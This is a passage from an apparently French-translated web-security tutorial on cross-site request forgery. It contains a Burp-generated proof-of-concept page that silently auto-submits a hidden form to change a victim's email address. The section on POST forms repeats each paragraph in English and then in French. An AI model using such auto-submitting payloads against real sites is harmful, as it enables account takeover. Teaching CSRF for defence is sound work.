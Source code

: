 ![](<../.gitbook/assets/image (530).png>)

### Requête GET de formulaire
```markup
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
<script>history.pushState('', '', '/')</script>
<form method="GET" action="https://victim.net/email/change-email">
<input type="hidden" name="email" value="some@email.com" />
<input type="submit" value="Submit request" />
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
```
### Requête POST de formulaire

A common method used by web applications to send data to the server is through a form POST request. This type of request is commonly used for actions such as submitting a login form, creating a new user account, or updating user information.

Une méthode couramment utilisée par les applications web pour envoyer des données au serveur est la requête POST de formulaire. Ce type de requête est généralement utilisé pour des actions telles que la soumission d'un formulaire de connexion, la création d'un nouveau compte utilisateur ou la mise à jour des informations utilisateur.

To send a form POST request, the web application constructs an HTML form with input fields for the desired data. When the user submits the form, the browser sends a POST request to the server with the form data as the request body.

Pour envoyer une requête POST de formulaire, l'application web construit un formulaire HTML avec des champs de saisie pour les données souhaitées. Lorsque l'utilisateur soumet le formulaire, le navigateur envoie une requête POST au serveur avec les données du formulaire en tant que corps de la requête.

The server then processes the request and performs the necessary actions based on the submitted data. It is important to note that the server trusts the request because it assumes that the request is legitimate and initiated by the user.

Le serveur traite ensuite la requête et effectue les actions nécessaires en fonction des données soumises. Il est important de noter que le serveur fait confiance à la requête car il suppose que la requête est légitime et initiée par l'utilisateur.
